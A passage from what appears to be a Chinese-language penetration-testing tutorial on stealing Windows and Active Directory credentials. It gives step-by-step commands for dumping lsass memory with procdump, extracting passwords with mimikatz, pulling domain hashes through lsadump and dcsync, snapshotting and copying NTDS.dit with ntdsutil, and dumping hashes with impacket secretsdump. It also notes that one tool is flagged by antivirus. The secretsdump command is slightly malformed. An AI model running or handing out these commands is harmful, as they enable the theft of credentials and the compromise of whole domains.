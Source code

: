 `procdump64.exe -accepteula -ma lsass.exe lsass.dmp`

将lsass.dmp下载到本地后，然后执行mimikatz:

Copy

`mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit`

为了方便复制与查看，可以输出到本地文件里面：

Copy

`mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" > pssword.txt`

### 0x03 读取域控中域成员Hash

#### 3.1 域控本地读取

注：得在域控上以域管理员身份执行mimikatz

方法一：直接执行

Copy

`#提升权限 privilege::debug  抓取密码 lsadump::lsa /patch`

方法二：通过 dcsync，利用目录复制服务（DRS）从NTDS.DIT文件中检索密码哈希值，可以在域管权限下执行获取：

Copy

`#获取所有域用户 lsadump::dcsync /domain:test.com /all /csv  #指定获取某个用户的hash lsadump::dcsync /domain:test.com /user:test`

#### 3.2 导出域成员Hash

Copy

域账户的用户名和hash密码以域数据库的形式存放在域控制器的 `%SystemRoot%\ntds\NTDS.DIT` 文件中。

这里可以借助：ntdsutil.exe，域控制器自带的域数据库管理工具，我们可以通过域数据库，提取出域中所有的域用户信息，在域控上依次执行如下命令，导出域数据库：

Copy

`#创建快照 ntdsutil snapshot "activate instance ntds" create quit quit  #加载快照 ntdsutil snapshot "mount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit  #Copy文件副本 copy C:\$SNAP_201911211122_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit`

将ntds.dit文件拷贝到本地利用impacket脚本dump出Hash：

Copy

`secretsdump.py -ntds.dit -system system.hive LOCAL`

![](https://image.3001.net/images/20200304/15833020816765.png)

除了借助python，还有一个NTDSDumpEx（会被360查杀的哦）：

工具地址：[https://github.com/zcgonvh/NTDSDumpEx/releases](https://github.com/zcgonvh/NTDSDumpEx/releases)

Copy

